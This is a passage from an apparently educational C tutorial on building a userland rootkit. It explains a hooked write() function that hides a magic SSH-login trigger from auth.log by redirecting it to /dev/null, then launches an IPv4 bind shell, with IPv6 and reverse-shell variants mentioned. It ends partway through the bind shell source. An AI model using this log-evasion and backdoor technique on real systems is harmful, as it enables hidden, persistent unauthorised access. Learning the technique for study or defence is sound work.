  ```c
 ```
 Although long, there's not a lot to get through here. We've basically used `if/else if` to check the buffer being written for mulitple sub-strings that we're using as our trigger. Let's break it down:
 + `if (bind4 != NULL)` we check to see if the variable `bind4` is `NULL` and if it's not, we jump to our logic;
 + `fildes = open("/dev/null", O_WRONLY | O_APPEND);` if it's not `NULL`, then we have a match, we know we're trying to activate the rootkit because we sent our magic string `notavaliduser4` as an SSH attempt. Of course that will fail, so `syslog` will log that and activate our hooked `write()` syscall. Since we have a match, we don't actually want it written to log that we tried to do fishy stuff. So let's re-route the `write()` operation by first using `open()` to open `/dev/null` in an append and write mode and then passing that return value to the `int filedes` variable we had already used in our function declaration. It should be mentioned that routing to `/dev/null` is just one solution, you could also just not `write()` at all. You are God here (well, userland God anyway);
 + `result = new_write(fildes, buf, nbytes);` we now do a normal write operation on `/dev/null` and give the return value to our `ssize_t result` variable we defined in our function declaration. This `result` variable can now be delivered to follow on functions. `syslog` calls something like `open()` to open `auth.log` it then calls `write()` because it has a buffer it needs to put in the file (our failed SSH attempt) and then the write operation returns a result in the form of our variable `result` which is probably just an indication of completion or failure. To the process, nothing here is broken, it called write, and got a result as intended. Know that when `syslog` called `write()` here, it had values it used as arguments in place of the function declaration arugments. It didn't pass `const void *buf` to `write()` when it called it for example, it passed it something like a pointer to a string that said "failed SSH attempt for...";
 + `ipv4_bind()` is the name of a function that is being called which binds a command shell to a listening port. That function is defined above in the program. We will show what that is later, but essentially it's just our IPV4 TCP bind shell that we wrote in a previous assignment on port 65065. 
 
 So, our trigger hit the write buffer, was written to `/dev/null` instead of `/var/log/auth.log`, a function opening a bind shell was called, and then finally we need to return the result to the calling process so it knows whether or not the `write()` function worked. We accomplish that with the last bit of code `return result;`. 
 
 We have quite a few possiblities here. All in all, there are 4 distinct triggers for an IPv4 bindshell, IPv6 bindshell, IPv4 reverse-shell, and IPv6 reverse-shell. Let's dig into those a bit. We won't recapitulate the entire piece of code in each since we've already completed [a bind shell](https://github.com/h0mbre/Learning-C/tree/master/Assignment-26), but we'll focus on the new aspects. Here is each function: 
 
### `ipv4_bind()` Bind Shell

 ```c
 int ipv4_bind (void)
{
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(LOC_PORT);
    addr.sin_addr.s_addr = INADDR_ANY;

    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    const static int optval = 1;

    setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(optval));

    bind(sockfd, (struct sockaddr*) &addr, sizeof(addr));

    listen(sockfd, 0);

    int new_sockfd = accept(sockfd, NULL, NULL);

    for (int count = 0; count < 3; count++)
    {
        dup2(new_sockfd, count);
 ```